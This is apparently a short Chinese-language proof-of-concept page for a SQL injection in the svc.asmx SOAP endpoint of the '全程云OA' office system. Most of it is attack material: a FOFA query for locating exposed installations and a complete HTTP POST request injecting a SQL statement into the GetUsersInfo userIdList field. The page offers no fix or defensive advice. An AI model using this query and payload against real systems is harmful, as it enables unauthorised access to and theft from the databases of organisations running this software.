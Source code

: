 ## 全程云OA-svc.asmxSQL注入漏洞

全程云OA svc.asmx 接口存在SQL注入漏洞，攻击者通过SQL注入可以获取服务器数据库敏感信息

## fofa

```
"全程云OA" || "images/yipeoplehover.png"
```

## poc

```
POST /oa/pm/svc.asmx HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Maxthon/4.4.3.4000 Chrome/30.0.1599.101 Safari/537.36
Content-Length: 369
Content-Type: text/xml; charset=utf-8
Soapaction: "http://tempuri.org/GetUsersInfo"
Accept-Encoding: gzip, deflate, br
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetUsersInfo xmlns="http://tempuri.org/">
      <userIdList>select @@version</userIdList>
    </GetUsersInfo>
  </soap:Body>
</soap:Envelope>
```

![image-20240602200806606](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406022008666.png)